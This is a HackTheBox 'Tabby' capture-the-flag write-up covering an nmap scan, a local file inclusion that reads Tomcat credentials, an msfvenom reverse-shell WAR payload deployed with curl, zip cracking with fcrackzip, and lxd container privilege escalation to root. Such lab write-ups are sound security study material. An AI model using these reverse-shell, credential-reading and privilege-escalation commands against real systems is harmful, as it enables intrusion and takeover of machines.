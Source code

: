 ```yaml
---
title: HackTheBox Tabby Writeup
published: true
---
```


![](https://i.ibb.co/mBPb1hs/logo.png)

# []()Methodology

* nmap scan
* LFI Lead to read tomcat user credentials
* exploitation Part
* crack zip file by fcrackzip 
* user part
* Privilege Escalation

# []()Nmap Scan

> **as always, i’ll do nmap scan to find out which services running in this machine.**

* 8080 for apache tomcat

* 22 for ssh

* from nmap scan i know that there is a apache tomcat server.

```ruby

# Nmap 7.80 scan initiated Sun Jun 21 05:43:17 2020 as: nmap -sC -sV -oN scan.txt 10.10.10.194
Nmap scan report for 10.10.10.194
Host is up (0.13s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

> **let's check the web page now.**

![](https://i.ibb.co/b5RHnQj/webpage-mega.png)

> **after looking at the source code i found the way to exploit LFI, let's see how.**

![](https://i.ibb.co/BNg7ZrK/lfi-param.png)

# []() LFI Part

* **from the source code i've found the url: http://megahosting.htb/news.php?file=**

> **the file parameter was vulnerable to LFI, let's check it.**

![](https://i.ibb.co/qNY5mWv/lfi-done.png)

* now we have lfi, let's check the port 8080 now.

![](https://i.ibb.co/Hp3ND9s/port-8080.png)

> from this page we know that the users data we will find it at **tomcat9/tomcat-users.xml**, let's use lfi now.

* from Apache tomcat [Docs](http://tomcat.apache.org/tomcat-8.5-doc/manager-howto.html) i know that the file will be in **/usr/share/tomcat9/etc/tomcat-users.xml**

* if you are a linux user you will know that without any blogs because any program data will be found at **/usr/share**

> **here is the credentials for apache tomcat server.**

![](https://i.ibb.co/xfR6Rjq/user-data.png)

* username:**tomcat**
* password:**$3cureP4s5w0rd123!**

> **now we have the credentials, now the exploitation part will be done with 2 ways.**

# []() Exploitation Part

> exploitation part was very easy, we need a **war** format backdoor to upload to the server and start deploying it to get a reverse shell.

* let's generate a war file with **msfvenom**.

> **msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.xx LPORT=9002 -f war > xdev0.war**

* after generating this file we need to upload it and deploy it as a new application.

> **curl --user 'tomcat:$3cureP4s5w0rd123!' --upload-file xdev0.war "http://10.10.10.194:8080/manager/text/deploy?path=xdev0.war"**

```ruby

╭─xdev05@nic3One ~/Documents/HTB/Tabby  
╰─➤  curl --user 'tomcat:$3cureP4s5w0rd123!' --upload-file xdev0.war "http://10.10.10.194:8080/manager/text/deploy?path=/xdev0.war"
OK - Deployed application at context path [/xdev0.war]
╭─

```
> **let's start nc listener now and open this link http://10.10.10.194:8080/xdev0.war.**

![](https://i.ibb.co/pytCy44/nc.png)

* nice!

> **in this point you can use metasploit too.**

![](https://i.ibb.co/r3rWxQj/metasploit.png)

# []()USER Part

> **after some enumeration, I've found a compressed backup file and after cracking this file I used its password to escalate my privilege to the user privileges.**

* here is the backup file

![](https://i.ibb.co/nsZ1vjz/backup-file.png)

* let's crack it now with **fcrackzip**

> **fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt 16162020_backup.zip**

![](https://i.ibb.co/5TFBTT6/fcrack-result.png)

* let's escalate our privilege now.

> **su ash**

![](https://i.ibb.co/p2GjmMp/user.png)

* user part done!.

# []()ROOT Part

> the user **ash** is a member of **lxd local group**

```ruby

ash@tabby:~$ id
id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)

```
> **from this [Blog](https://www.hackingarticles.in/lxd-privilege-escalation/) i know the way to escalate my privileges to root privilege.**

1. **Steps to be performed on the attacker machine.**

* Download build-alpine in your local machine through the git repository.

* Execute the script “build -alpine” that will build the latest Alpine image as a compressed file, this step must be executed by the root user.

* Transfer the tar file to the host machine

2. **Steps to be performed on the Tabby machine.**

* Download the alpine image from your machine

* Import image for lxd

* Initialize the image inside a new container.

* Mount the container inside the /root directory 

* let's start now.

```ruby

╭─xdev05@nic3One ~/Documents/HTB/Tabby/lxd-alpine-builder  ‹master*› 
╰─➤  ls
alpine-v3.12-x86_64-20201106_1805.tar.gz  build-alpine  LICENSE  README.md
╭─xdev05@nic3One ~/Documents/HTB/Tabby/lxd-alpine-builder  ‹master*› 
╰─➤  

```

> **let's start a python server and upload the image to the Tabby machine**

![](https://i.ibb.co/NYBx9dG/lxd-upload.png)

* now let's import our image

> **lxc image import ./alpine-v3.12-x86_64-20201106_1805.tar.gz --alias devil**

![](https://i.ibb.co/kHqxxx4/image-lxc.png)

> **lxc init devil ignite -c security.privileged=true**

> **lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true**

> **lxc start ignite**

> **lxc exec ignite /bin/sh**

![](https://i.ibb.co/QrGJ4st/root-part.png)

> root flag

```ruby

/mnt/root/root # cat root.txt
cat root.txt
8eca10cfde310d8b2c7668bee56818b5
/mnt/root/root #

```

* Thanks for reading.

* Cheers!

 <script src="https://www.hackthebox.eu/badge/103789"></script>


